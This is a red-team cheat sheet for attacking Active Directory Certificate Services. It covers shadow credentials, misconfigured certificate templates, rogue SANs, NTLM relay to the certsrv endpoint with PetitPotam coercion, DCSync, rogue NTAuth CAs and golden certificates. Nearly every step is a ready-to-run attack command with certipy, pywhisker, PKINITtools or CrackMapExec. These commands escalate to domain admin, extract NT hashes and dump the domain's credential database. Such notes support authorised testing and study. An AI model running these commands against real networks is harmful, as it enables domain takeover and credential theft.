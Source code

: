 s- Recon
	- `certipy find domain.local/user:pass@domain.local -enabled`

- Shadow credentials
	- Add Key Credentials to the **msDS-KeyCredentialLink** of a user, allowing authentication as that user through certificates
	- Must have one of the following ACLs over the user:
		- GenericAll
		- GenericWrite
		- AddKeyCredentialLink
	- Procedure:
		- Get a certificate
			- `python3 /opt/pywhisker/pywhisker.py -u ValidUser -p ValidPass -d domain.local -t target --dc-ip <DC IP> --action add`
				- https://github.com/ShutdownRepo/pywhisker
		- Get a TGT
			- `python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx cert.pfx -pfx-pass $passwordFromAbove -dc-ip <DC IP> domain.local/target filename.ccache`
				- https://github.com/dirkjanm/PKINITtools
		- Set the ccache environment variable for Impacket
			- `export KRB5CCNAME=filename.ccache`
		- Get NT hash from TGT
			- `python3 /opt/PKINITtools/getnthash.py domain.local/target -key <key from above> -dc-ip <DC IP>`

- Privesc through misconfigured certificate templates
	- Request a certificate
		- `certipy req domain.local/user:password@ca.domain.local -ca <CA Name> -template <vulnerable template> -alt <domain admin acct>@domain.local' -out pwned`
	- Authenticate and extract user's NT hash
		- `certipy auth -pfx pwned.pfx -username <domain admin acct> -domain domain.local -dc-ip <DC IP>`

- Privesc through Certificate Authority which allows rogue Subject Alternative Names (SANs)
	- "EDITF_ATTRIBUTESUBJECTALTNAME2" config allows users to specify SANs when requesting certificates
	- Effectively, any user can request a certificate as any other user
	- Exploited the same way as above, but can be done on any template

- NTLM Relay to AD CS HTTP Endpoints
	- Certificate enrollment web interface at http://<ADCS_Server>/certsrv/ is vulnerable to Net-NTLM relay attack
	- This allows attackers to use NTLM relay to to login and generate a certificate using the relayed user's creds
	- When PKINIT auth is used, Kerberos provides user with the NT hash of the account for fallback to Net-NTLM auth, which means we can also use this to obtain the NT hash of the user.
	- Exploitation:
		- Initialize the relay
			- `certipy relay -ca <CA_IP> -template DomainController`
		- Coerce authentication
			- `python3 /opt/PetitPotam/PetitPotam.py -d domain.local <attacker_IP> <target_DC_IP>`
		- Auth with the certificate
			- `certipy auth -pfx dc.pfx -dc-ip <DC_IP>`
		- DCSync
			- `cme smb <target_DC>.domain.local -u <DC_machine_acct> -H <NT_hash> --ntds`

- NTAuthCertificates
	- LDAP object: `(CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,DC=rlyeh,DC=com)`
	- Add new CA certificate to this object (allows it to be trusted for auth):
		- `certutil.exe -dspublish -f C:\rogue.crt NTAuthCA`

- Golden certificates:
	1. Get the CA cert and key: `certipy ca -backup -ca 'cthulhu-CA'`
	2. Forge certificates: `certipy forge -ca-pfx cth.pfx [cert options]`

